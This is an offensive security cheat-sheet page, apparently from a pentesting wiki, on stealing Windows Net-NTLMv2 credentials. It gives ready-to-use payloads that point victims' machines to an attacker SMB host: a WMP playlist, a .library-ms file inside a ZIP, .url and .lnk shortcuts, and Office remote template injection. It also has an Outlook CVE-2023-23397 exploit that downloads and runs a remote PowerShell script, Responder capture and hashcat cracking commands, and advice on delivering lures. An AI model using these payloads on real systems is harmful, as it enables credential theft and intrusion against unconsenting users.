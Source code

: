 # Places to steal NTLM creds

**Check all the great ideas from [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) from the download of a microsoft word file online to the ntlm leaks source: https://github.com/soufianetahiri/TeamsNTLMLeak/blob/main/README.md and [https://github.com/p0dalirius/windows-coerced-authentication-methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)**

### Windows Media Player playlists (.ASX/.WAX)

If you can get a target to open or preview a Windows Media Player playlist you control, you can leak Net‑NTLMv2 by pointing the entry to a UNC path. WMP will attempt to fetch the referenced media over SMB and will authenticate implicitly.

Example payload:

```xml
<asx version="3.0">
  <title>Leak</title>
  <entry>
    <title></title>
    <ref href="file://ATTACKER_IP\\share\\track.mp3" />
  </entry>
</asx>
```

Collection and cracking flow:

```bash
# Capture the authentication
sudo Responder -I <iface>

# Crack the captured NetNTLMv2
hashcat hashes.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

### ZIP-embedded .library-ms NTLM leak (CVE-2025-24071/24055)

Windows Explorer insecurely handles .library-ms files when they are opened directly from within a ZIP archive. If the library definition points to a remote UNC path (e.g., \\attacker\share), simply browsing/launching the .library-ms inside the ZIP causes Explorer to enumerate the UNC and emit NTLM authentication to the attacker. This yields a NetNTLMv2 that can be cracked offline or potentially relayed.

Minimal .library-ms pointing to an attacker UNC

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <version>6</version>
  <name>Company Documents</name>
  <isLibraryPinned>false</isLibraryPinned>
  <iconReference>shell32.dll,-235</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\10.10.14.2\share</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

Operational steps
- Create the .library-ms file with the XML above (set your IP/hostname).
- Zip it (on Windows: Send to → Compressed (zipped) folder) and deliver the ZIP to the target.
- Run an NTLM capture listener and wait for the victim to open the .library-ms from inside the ZIP.

### Outlook calendar reminder sound path (CVE-2023-23397) – zero‑click Net‑NTLMv2 leak

Microsoft Outlook for Windows processed the extended MAPI property PidLidReminderFileParameter in calendar items. If that property points to a UNC path (e.g., \\attacker\share\alert.wav), Outlook would contact the SMB share when the reminder fires, leaking the user’s Net‑NTLMv2 without any click. This was patched on March 14, 2023, but it’s still highly relevant for legacy/untouched fleets and for historical incident response.

Quick exploitation with PowerShell (Outlook COM):

```powershell
# Run on a host with Outlook installed and a configured mailbox
IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/api0cradle/CVE-2023-23397-POC-Powershell/main/CVE-2023-23397.ps1)
Send-CalendarNTLMLeak -recipient user@example.com -remotefilepath "\\10.10.14.2\share\alert.wav" -meetingsubject "Update" -meetingbody "Please accept"
# Variants supported by the PoC include \\host@80\file.wav and \\host@SSL@443\file.wav
```

Listener side:

```bash
sudo responder -I eth0  # or impacket-smbserver to observe connections
```

Notes
- A victim only needs Outlook for Windows running when the reminder triggers.
- The leak yields Net‑NTLMv2 suitable for offline cracking or relay (not pass‑the‑hash).

### .LNK/.URL icon-based zero‑click NTLM leak (CVE‑2025‑50154 – bypass of CVE‑2025‑24054)

Windows Explorer renders shortcut icons automatically. Recent research showed that even after Microsoft’s April 2025 patch for UNC‑icon shortcuts, it was still possible to trigger NTLM authentication with no clicks by hosting the shortcut target on a UNC path and keeping the icon local (patch bypass assigned CVE‑2025‑50154). Merely viewing the folder causes Explorer to retrieve metadata from the remote target, emitting NTLM to the attacker SMB server.

Minimal Internet Shortcut payload (.url):

```ini
[InternetShortcut]
URL=http://intranet
IconFile=\\10.10.14.2\share\icon.ico
IconIndex=0
```

Program Shortcut payload (.lnk) via PowerShell:

```powershell
$lnk = "$env:USERPROFILE\Desktop\lab.lnk"
$w = New-Object -ComObject WScript.Shell
$sc = $w.CreateShortcut($lnk)
$sc.TargetPath = "\\10.10.14.2\share\payload.exe"  # remote UNC target
$sc.IconLocation = "C:\\Windows\\System32\\SHELL32.dll" # local icon to bypass UNC-icon checks
$sc.Save()
```

Delivery ideas
- Drop the shortcut in a ZIP and get the victim to browse it.
- Place the shortcut on a writable share the victim will open.
- Combine with other lure files in the same folder so Explorer previews the items.

### Office remote template injection (.docx/.dotm) to coerce NTLM

Office documents can reference an external template. If you set the attached template to a UNC path, opening the document will authenticate to SMB.

Minimal DOCX relationship changes (inside word/):

1) Edit word/settings.xml and add the attached template reference:

```xml
<w:attachedTemplate r:id="rId1337" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships"/>
```

2) Edit word/_rels/settings.xml.rels and point rId1337 to your UNC:

```xml
<Relationship Id="rId1337" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="\\\\10.10.14.2\\share\\template.dotm" TargetMode="External" xmlns="http://schemas.openxmlformats.org/package/2006/relationships"/>
```

3) Repack to .docx and deliver. Run your SMB capture listener and wait for the open.

For post-capture ideas on relaying or abusing NTLM, check:

[[README.md]]

## References
- [HTB Fluffy – ZIP .library‑ms auth leak (CVE‑2025‑24071/24055) → GenericWrite → AD CS ESC16 to DA (0xdf)](https://0xdf.gitlab.io/2025/09/20/htb-fluffy.html)
- [HTB: Media — WMP NTLM leak → NTFS junction to webroot RCE → FullPowers + GodPotato to SYSTEM](https://0xdf.gitlab.io/2025/09/04/htb-media.html)
- [Morphisec – 5 NTLM vulnerabilities: Unpatched privilege escalation threats in Microsoft](https://www.morphisec.com/blog/5-ntlm-vulnerabilities-unpatched-privilege-escalation-threats-in-microsoft/)
- [MSRC – Microsoft mitigates Outlook EoP (CVE‑2023‑23397) and explains the NTLM leak via PidLidReminderFileParameter](https://www.microsoft.com/en-us/msrc/blog/2023/03/microsoft-mitigates-outlook-elevation-of-privilege-vulnerability/)
- [Cymulate – Zero‑click, one NTLM: Microsoft security patch bypass (CVE‑2025‑50154)](https://cymulate.com/blog/zero-click-one-ntlm-microsoft-security-patch-bypass-cve-2025-50154/)

